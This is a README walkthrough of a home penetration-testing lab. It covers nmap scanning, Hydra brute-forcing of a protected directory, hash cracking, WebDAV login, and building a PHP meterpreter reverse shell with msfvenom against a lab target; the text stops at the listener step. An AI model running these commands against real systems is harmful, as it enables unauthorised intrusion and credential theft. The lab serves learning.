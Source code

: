 # RED-vs-BLUE
Project demostrating my knowledge in defensive security, and pentration testing in a gray box environment.
## Network Topology
![Topology](Images/red-team-env)

| Name | Function | IP Address |
| -------- | --------| --------- |
| Kali VM  | Attacking Machine | 192.168.1.90 |
| Capstone VM | Target Machine | 192.168.1.105 |
| ELK Server | Monitoring Machine | 192.168.1.100 |

## Discover the IP address for the Linux server

-Open up a terminal and run an nmap of the network
`nmap 192.168.1.0/24`
![Nmap scan]{Images/nmap_find_webserver.png}

- Looking at the image above we can see that port 80 is open on 192.168.1.105. Which is the machine that we are looking for.

- We now need to open up a browser and navigate to the web page.
` http://192.168.1.105 `

## Locate the hidden directory on the server

- Navigating through different directories, you will see a reoccurring message.
*Please refer to company_folder/secret_folder for more information*
*ERROR: company_folders/secret_folder/ is no longer accessible to the public*

- Navigate to that directory by updating the path in the url.
` http://192.168.1.105/company_folders_secret_folder `

- The directory asks for authentication in order to access it. Reading the authentication method, it says *For ashton's eyes only*

- This gives us a good idea on what account to target

## Brute force the password for the hidden directory

- Because the folder is password protected, we need to either guess the password or brute force into the directory. In, this case, it would be much more efficient to use a brute force attack, specifically Hydra.

- Command used `hydra -l ashton -P ./wordlist/rockyou.txt -s 80 -f 192.168.1.105 http-get /company_folders/secret_folder`
![Hydra](Images/hydra_psswd_hash.png)

- We can see that Ashton's password is *leopoldo*
- Going back to the *company_folders/secret_folder* enter the information that we found.

- Once inside the directory navigate the the *connect_to_corp_server* We find instructions on how to connect to the server via **WebDAV**
- We can also see ryan's password hash.
![webdav instructions](Imaages/web-dav-dir.png)

## Connect to the server via WebDAV

- Using ryan's password hash we can either put the hash into a file with the proper format and use `john`, or we can use *https://crackstation.net* to crack the passwod. In this case we will be using *crackstation*.

-Naviage to *https://crackstation.net* and enter the hash into the text box.

![Crackstation](Images/crackstation_psswd_hash.png)

- The password is revealed as: `linux4u`

## Connect to the server via WebDAV

- In order to connect to the webserver via WebDAV we need to do as follows.
  1. Open the **File System** from the desktop
  2. Click **Browse Network**
  3. In the URL bar, type: `dav://192.168.1.105/webdav` and enter ryans credentials to log in.
![Webdav-login](Images/webdav_login.png)

## Upload a PHP reverse shell payload

- We start by creating the payload using **msfvenom**.

- `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 > shell.php`

![msf-payload](Images/msf-payload.png)

- On the Kali machine we need to set up a listener.
  
